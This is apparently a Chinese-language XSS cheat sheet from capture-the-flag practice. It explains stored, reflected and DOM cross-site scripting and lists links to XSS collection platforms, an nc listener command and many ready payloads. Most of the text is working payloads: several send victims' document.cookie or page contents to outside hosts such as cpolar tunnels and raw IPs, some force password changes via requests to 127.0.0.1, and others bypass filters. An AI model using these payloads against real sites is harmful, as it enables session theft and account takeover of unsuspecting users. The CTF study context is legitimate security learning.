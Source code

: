 [XSS平台 - （支持http/https）XSS Platform](https://xss.pt/xss.php?do=register)
[xsshs.cn](https://xsshs.cn/)

nc -lvp 9999    //使用nc监听4444端口

python3 -m http.server 9999

http://8.130.20.254/
### 存储型
存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie

### 反射型
非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。反射型XSS大多数是用来盗取用户的Cookie信息

### DOM型
不经过后端，DOM-XSS漏洞是基于文档对象模型(Document Objeet Model,DOM)的一种漏洞，DOM-XSS是通过url传入参数去控制触发的，其实也属于反射型XSS

## 常用语句
<script>alert("1")</script>

'onclick='javascript:alert(1)' ('onclick=javascript:alert(1)//)：作为元素对象属性
onfocus
onblur

"><a href='javascript:alert(1)'>xss</a>//

# 外带
```
攻击者通常会利用已经存在的 XSS 漏洞，在受害者的浏览器上注入恶意代码，并将受害者的 Cookie 数据上传到攻击者控制的服务器上，然后攻击者就可以使用该 Cookie 来`冒充受害者`，执行一些恶意操作，例如盗取用户的账户信息、发起钓鱼攻击等。

<script>
var img=document.createElement("img"); img.src="http://118.31.168.198:39543/"+document.cookie;
</script>


<script>window.open('https://7dc5fa72.r7.cpolar.top/platform/?cookie='+document.cookie)</script>

<script>location.href='http://185313a9.r1.cpolar.top/platform/'+document.cookie</script>

<svg onload="window.open('https://185313a9.r1.cpolar.top/platform/?cookie='+document.cookie)">

<iframe onload="window.open('https://185313a9.r1.cpolar.top/platform/?cookie='+document.cookie)"></iframe>

<body onload="window.open('https://185313a9.r1.cpolar.top/platform/?cookie='+document.cookie)">

<body οnlοad="window.location.href='https://3f4d3f9c.r10.cpolar.top/platform/?cookie='+document.cookie"></body>

<BODY ONLOAD=document.location='https://3f4d3f9c.r10.cpolar.top/platform/?cookie='+document.cookie;>

<img src=x onerror = document.body.appendChild(document.createElement('img')).setAttribute('src','http://4b467a9c.r9.cpolar.top/platform/?cookie='+document.cookie); >


（需根据实际情况增加?cookie=",因为需要传参正确）




以上为获取cookie

<script>window.open('https://185313a9.r1.cpolar.top/platform/?'+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>

<script>$('.laytable-cell-1-0-1').each(function(index,value){
    if(value.innerHTML.indexOf('ctf'+'show{')>-1){
        window.location.href='http://ip/a.php?cookie='+value.innerHTML; 
    }
});</script>

<script>
var img = new Image();
img.src = "http://your-domain/cookie.php?cookie="+document.querySelector('#top > div.layui-container > div    :nth-child(4) > div > div.layui-table-box > div.layui-table-body.layui-table-main').textContent;//问了师傅才知道这个标签是可以通过浏览器找到的，ttttqqqqll
document.body.append(img);
</script>


还有innerHTML和outerHTML的区别
1）innerHTML:
　　从对象的起始位置到终止位置的全部内容,不包括Html标签。
2）outerHTML:
　　除了包含innerHTML的全部内容外, 还包含对象标签本身。

```

# 存储型
```
注意：有些时候网页收到污染就无法继续进行，

通过外带获得Cookie，然后进行admin伪造，从而获得管理员权限

抓取到cookie会立刻失效，于是我们需要获得网页的内容

当有修改密码或其他操作时，可以考虑内网SSRF，

例：
修改密码时的url为/api/change.php?p=123，而修改的账户已经完成了登录，所以可以直接修改

于是可以用下面的payload进行修改密码：

<script>window.location.href='http://127.0.0.1/api/change.php?p=密码';</script>（GET）

POST：
<script>$.ajax({url:'http://127.0.0.1/api/change.php',type:'post',data:{p:'123',a:1}});</script>

<script>var httpRequest = new XMLHttpRequest();httpRequest.open('POST', 'http://127.0.0.1/api/change.php', true);httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");httpRequest.send('p=1234567');</script>

```

# 常见过滤手段

**空格过滤**
```
可用
TAB（拿%09的url解码得到的TAB来过滤,或者直接用tab键）
/
/**/

xss这个词有时候也会被过滤
```

![](./image/xss-1.png)
#### 直接用"><script>alert("1")</script>构造闭合

![](./image/xss-2.png)
看到使用了htmlspecialchars方法，htmlspecialchars是将特殊符号转换成HTML实体。HTML为了防止特殊符号，如 "<"等html当成标签<br>
这时候我们的思路就尽量要绕开使用新标签，那么浏览器还有一些事件可以执行js代码，如onfocus，onblur，(onclick)但是这两个是属于输入框在光标进入/离开时调用后面的js代码<br>
且需要闭合前面的单引号（也有可能是双引号)

![](./image/xss-3.png)
可以使用a标签来绕过

### 大小写绕过
strtolower():将全部换为小写，无法使用大小写绕过

### 双写绕过
![](./image/xss-4.png)
因过滤成“”，所以可以使用双写绕过
" oonnfocus=javascscriptript:alert('xss')//
"><scscriptript>alert("xss")</scscriptript>//
"> <a hhrefref=javascscriptript:alert('xss')>xss</a>//

### Unicode编码绕过
![](./image/xss-5.png)
href在调用openurl传参时会自动进行unicode解码
javascript:alert(1)
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#10;

### hidden绕过
用于没有输入框情况，把原来的hidden类型改为text类型，从而实现添加属性
t_link=" type='text'>//&t_history=" type='text'>//&t_sort=" type='text'>//
t_sort=" type='text' onclick='javascript:alert(1)'//

## referer绕过

![](./image/xss-6.png)
打开网站后，发现t_ref中内容为上一个网站的内容，于是想到使用referer伪造

## 获取cookie

```javascript
#"><img src=/ onerror=alert(document.cookie)>
```
